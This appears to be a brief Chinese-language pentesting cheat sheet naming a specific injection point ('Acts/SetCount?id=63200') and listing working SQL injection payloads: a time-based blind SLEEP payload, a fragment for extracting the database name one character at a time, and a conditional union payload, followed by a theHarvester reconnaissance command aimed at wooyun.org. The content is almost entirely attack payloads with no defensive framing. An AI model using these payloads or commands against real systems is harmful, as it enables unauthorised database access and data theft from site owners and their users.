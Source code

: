 ## sql注入
### 注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```

## 信息收集
### The harvester
```bash
./theHarvester.py -d wooyun.org -l 500 -b baidu -v 
```
